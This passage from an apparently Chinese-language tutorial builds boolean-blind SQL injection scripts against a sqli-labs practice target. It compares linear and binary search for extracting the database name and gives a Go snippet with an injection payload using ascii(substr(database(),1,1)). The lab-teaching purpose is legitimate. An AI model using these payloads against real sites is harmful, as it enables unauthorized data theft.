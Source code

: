 看一下输出的结果与时间对比：

```shell
linear:
database: s
database: se
database: sec
database: secu
database: secur
database: securi
database: securit
database: security
Time: 11.133447170257568 seconds

binary:
database: s
database: se
database: sec
database: secu
database: secur
database: securi
database: securit
database: security
Time: 0.7845282554626465 seconds
```

可见二分查找的效率是有多么地显著。珍爱生命，还是尽可能有二分这种查找算法吧。写起来也并不复杂。

## Golang 版

Golang 版没有比较成熟与好用的库类似于 Python 的 requests，但是有一个类似的库叫：[grequests](https://github.com/levigross/grequests)。

这个库等价于 python 中的 requests，其使用的基础库是 `net/http`（等价于 Python 中的 urllib）。

### 坑点 2：未编码 URL

如果带着 Python 的相同写法来写代码，那么很容易出现你意料之外的事情。

**坑点 2：一定要编码 URL，否则会导致 URL“不全”的错误。**

什么意思呢？这里用代码举个例子：

```go
var mark = "You are in"
func main() {
    // 与Python相同的payload
	url := "http://192.168.3.104/Less-8/?id=1' and ascii(substr(database(),1,1))=115 --+"
	resp, err := grequests.Get(url, nil)
	if err != nil {
		log.Fatalln("Unable to make request: ", err)
	}
	if strings.Contains(resp.String(), mark) {
		fmt.Println("Yes! You are in!")
	} else {
		fmt.Println("Ohh! You are not in!")
	}
}
```
